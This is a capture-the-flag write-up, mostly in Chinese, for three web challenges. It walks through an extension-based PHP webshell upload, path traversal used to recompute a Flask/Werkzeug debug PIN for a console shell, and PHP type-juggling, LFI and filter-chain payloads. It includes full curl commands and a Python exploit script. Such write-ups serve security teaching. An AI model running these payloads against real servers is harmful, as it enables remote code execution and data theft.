



# Web

## Palitan ng pera

solve: 27/165

### description
It's a currency exchange website.

Author: Vincent55


### solution

可以發現，這部分的程式碼將我們傳入的 `$_POST['region']` 拿去對照 currency.php 中定義的對照表，取得該國家的 ISOname 後將其變為副檔名存成檔案。

並且，我們可以在創建的檔案中放入任意的文字。

```php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $region = $_POST["region"];
    $amount = $_POST["amount"];

    $isoName = $countryData[$region]["ISO"];
    $rate = $countryData[$region]["toTWD"];

    $convertedAmount = $amount * $rate ?: $amount;

    $htmlContent = "<html><body>";
    $htmlContent .= "<h1> Exchange result </h1>";
    $htmlContent .= "<p>{$amount} TWD = {$convertedAmount} {$isoName}</p>";
    $htmlContent .= "<a href='/'>Back to Home</a></body></html>";

    $filePath = "upload/" . md5(uniqid()) . "." . $isoName;
    file_put_contents($filePath, $htmlContent);

    $resultLink = "<a href='" . $filePath . "'> 👁️ exchange result</a>";
}
```

再來，可以發現 Dockerfile 中有不太尋常的地方，在倒數第二行中加上了許多 php 副檔名。

```Dockerfile
FROM php:7.4.33-apache

COPY . /var/www/html

RUN chown -R www-data:www-data /var/www/html && \
    chmod -R 555 /var/www/html && \
    chown www-data:www-data /var/www/html/upload && \
    chmod 775 /var/www/html/upload

ARG FLAG
RUN echo $FLAG > /flag-`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 8 | head -n 1`

RUN echo "AddType application/x-httpd-php .php .Php .pHp .phP .pHP .PHp .PHP" >>/etc/apache2/apache2.conf
USER www-data
```

我們的目標逐漸明朗，我們要想辦法創建一個副檔名在 `.php .Php .pHp .phP .pHP .PHp .PHP` 中的一個檔案，因此，目標為: 找到一個國家，其 ISOname 可被當為 php 的副檔名。

接下來，我們就發現菲律賓的 ISO 為 `PHP`，之後將檔案內容傳入任意 webshell 即可拿下這題。

```php
...
"Paraguay" => array("ISO" => "PYG", "toTWD" => 0.87),
"Peru" => array("ISO" => "PEN", "toTWD" => 0.87),
"Philippines" => array("ISO" => "PHP", "toTWD" => 0.87),
"Pitcairn Islands" => array("ISO" => "NZD", "toTWD" => 0.87),
"Poland" => array("ISO" => "PLN", "toTWD" => 0.87),
"Portugal" => array("ISO" => "EUR", "toTWD" => 0.87),
...
```

payload by [chumy](https://blog.chummydns.com/):

```
curl http://<hostname>.challenge.tscctf.com/ -d "region=Philippines&amount=$(urlencode "<?php system(\$_GET['cmd']); ?>")"
curl "http://<hostname>.challenge.tscctf.com/upload/40794f0e819e11c567aca1deb14572bd.PHP?cmd=$(urlencode "ls /")"
curl "http://<hostname>.challenge.tscctf.com/upload/40794f0e819e11c567aca1deb14572bd.PHP?cmd=$(urlencode "cat /flag-8ZMuVdJW")"
```

## Normal Website

solve: 15/165

### description

This is just my normal website.

Dockerfile is in /app/Dockerfile

Author: Vincent55

### solution

這題一打開就會看到一個一直跳動的迴紋針（其實是個提示，不知道有沒有人聯想到 `pin` XD），跟這題是用 flask 寫的，除此之外應該沒什麼東西了。



:::info
可能會有人直接去存取 /app/Dockerfile 然後會拿到 404 error 這是正常的，因為這題是 route base 的網站，沒有特別設定，不會導到該檔案。
:::

透過這個迴紋針圖片的路徑 `/img/aGludC5qcGc%3D`，我們可以聯想到後墜有個 = ，應該是個 base64 編碼，我們拿去解碼看看。



可以猜測的到，伺服器端應該是先將其 base64 解碼後，再去取得該檔案，我們可以試試看存取 `/app/Dockerfile` 看看，我們可以在前方加上多個 `../` 來到達根目錄。



透過這樣就能取得 Dockerfile，取得 Dockerfile 後，便可以此類推，觀察 COPY 的檔案路徑，透過 path traversal 拿到其他檔案。

觀察這個 Dockerfile，可以發現以下幾件事。
- 這題使用的 image `python:3.10-alpine`
- 這題的 flask 有開啟 debug mode (此題關鍵)
- flag 的位置


接下來，我們的目標是達到 RCE，透過一些搜尋，發現當 flask （或者說有使用 Werkzeug 的 debug 當作依賴） debug mode 開啟時，只要能取得以下資訊，便可將 pin code 反算回來。
- username (可透過 Dockerfile 得知為 `daemon`)
- modname (觀察 app.py 得知為 `flask.app`)
- name of Flask class (`Flask`)
- location of app.py (將該 image 建起來後，可以找到路徑為 `/usr/local/lib/python3.10/site-packages/flask/app.py`)
- node_uuid
- machine_id

剩下的 node_uuid 與 machine_id 我們皆可以透過 LFI 拿到，詳細可參考資源。

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

算出 pin code 後，我們到 `/console` 輸入 pin code，便可成功 get shell，之後便可使用任意 python 了。

exploit:

```python
import requests
from urllib3.exceptions import InsecureRequestWarning
from base64 import b64encode
import hashlib
from itertools import chain

requests.packages.urllib3.disable_warnings(category=InsecureRequestWarning)

url = 'CHALLANGE URL'

def get_file(path):
    path = b64encode(path.encode()).decode()
    r = requests.get(url+f'/img/{path}', verify=False)
    return r.content

node_uuid = str(int(get_file('../../../../../../../sys/class/net/eth0/address').decode().replace(":", ""), 16))
machine_id = get_file('../../../../../../../proc/sys/kernel/random/boot_id').strip()

print(node_uuid)
print(machine_id)
probably_public_bits = [
	'daemon', # username of the user running flask
	'flask.app', # modname of app.py
	'Flask', # name of the Flask class
	'/usr/local/lib/python3.10/site-packages/flask/app.py', # location of app.py (flask module)
]

private_bits = [
	node_uuid,
	machine_id
]

num = None
rv = None

h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
	if not bit:
		continue
	if isinstance(bit, str):
		bit = bit.encode("utf-8")
	h.update(bit)
h.update(b"cookiesalt")

cookie_name = f"__wzd{h.hexdigest()[:20]}"

if num is None:
	h.update(b"pinsalt")
	num = f"{int(h.hexdigest(), 16):09d}"[:9]

if rv is None:
	for group_size in 5, 4, 3:
		if len(num) % group_size == 0:
			rv = "-".join(
				num[x : x + group_size].rjust(group_size, "0")
				for x in range(0, len(num), group_size)
			)
			break
	else:
		rv = num

print(f"PIN: {rv}\nTo {url}/console and paste it.")

# import subprocess
# subprocess.check_output("ls /", shell=True)
# subprocess.check_output("cat /{flag_name}", shell=True)
```


## [教學題] 極之番『漩渦』

solve: 33/165
此題為教學題，可使用分數來買提示，因此解題人數較多。

### description

Are you familiar with these old friends?

Author: Vincent55

http://172.31.210.1:33002

### solution

參考教學文件後，應該大部分都能解出來，這邊就不重複講解，剩下應該就是格式的問題。

教學文件
- https://hackmd.io/@Vincent550102/BJwHYfxKp

exploit:

- stage1
    - /stage1.php?A[]=x&B[]=2
- stage2
    - /stage2_212ad0bdc4777028af057616450f6654.php?A[]=123&B=234
- stage3
    - /stage3_099b3b060154898840f0ebdfb46ec78f.php?page=...\config.php
    - 預設會被註解，請開啟開發人員工具檢視網頁原始碼
- stage4(應該是最多人卡關的，大部分都是不知道如何傳)

將 <PHP FILTER CHAIN> 改為教學文件中提供的 payload，即可成功 get shell 
```
POST /stage4_b182g38e7db23o8eo8qwdehb23asd311.php?1=system("id;whoami"); HTTP/1.1
Host: 172.31.210.1:33002
Content-Length: 8227
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="👀"

<PHP FILTER CHAIN>
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```
